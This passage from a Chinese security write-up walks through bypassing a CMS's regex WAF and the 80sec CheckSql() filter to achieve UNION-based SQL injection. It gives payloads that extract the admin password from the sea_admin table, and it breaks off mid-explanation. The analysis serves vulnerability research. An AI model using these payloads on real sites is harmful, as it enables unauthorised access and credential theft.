 我们首先来看第一个关键点，我们知道一般的注入语句都是形如`union select 1,2,3,4,5,6,7,pass,9 from admin --`形式

但在该过滤点使用正则过滤了`union select`的形式：

```
UNION.+?SELECT\\s\*

```

这种过滤很容易绕，比如我们熟知的绕 waf 技巧`%23%0a` 就可以绕过该过滤，如下：

`union%23%0aselect%23%0a1,2,3,4,5,6,7,pass,9 from admin --`

（具体更多的方式可以阅读此文：[https://www.secpulse.com/archives/53328.html](https://www.secpulse.com/archives/53328.html)）

接下来就是第二个关键点，`CheckSql()`函数过滤了一大堆东西，这个函数原本是 80sec 写的，开发者对这个过滤函数进行了修改：

![](https://www.cnpanda.net/usr/uploads/2020/06/1992186737.png)

![](https://www.cnpanda.net/usr/uploads/2020/06/779418631.png)

可以看到，作者增加了对关键字符、关键字的过滤清空，但也正是这些多此一举的内容导致我们可以绕过这些过滤。

在 80sec 防注入程序中有个特征就是会将两个单引号之间的内容，用字符串`$s$`进行替换，例如`insert into admin(username,passdord) value ('admin','hello')`会被替换为`insert into admin(username,passdord) value ($s$,$s$)`

因此我们可以利用这个特性使得`$clean`变量中不会出现敏感字，从而绕过`CheckSql()`函数检测

我们知道在 Mysql 中，定义变量用 @字符，如我们可以使用`set @panda=’test’`，来为变量赋值

在这里我们为了合法的构造出一个单引号，就可以用 @'放入 sql 语句当中，来帮助我们绕过检查

需要注意的是，虽然我们绕过了检测，但我们的 SQL 语句中多了单引号，会导致原本的 SQL 语句失效，所以我们需要进一步来修改我们的注入语句, 来利用注释符 (`/*`/`*/`、`#`) 将单引号注释掉

因此语句为：

```
UNION%20SELECT%23%0a1,password,3,4,5,6,7,8,9,10,11%23%0afrom%23%0asea\_admin

```

但此时回头看，在`Readmlist()`函数最开始的地方：

```
    global $dsql,$type,$pCount,$rlist;
    $rlist = str\_ireplace('@', "", $rlist);    
    $rlist = str\_ireplace('/\*', "", $rlist);
    $rlist = str\_ireplace('\*/', "", $rlist);
    $rlist = str\_ireplace('\*!', "", $rlist);

```

对于这些字符进行了置空处理，因此如果我们直接传入，肯定会被过滤，导致我们的注释符失效，依旧不能达到我们的目的

但是注意，`$rlist`是全局变量，因此在`Readmlist()`函数中处理后的值，会保留继续传到`Readrlist()`函数（上方的流程图显示的很明白），也就是说如果我们直接传入上方我们构建的语句，就会被过滤成：

```
\`'\`,UNION%20SELECT%23%0a1,password,3,4,5,6,7,8,9,10,11%23%0afrom%23%0asea\_admin-- \`'\`

```
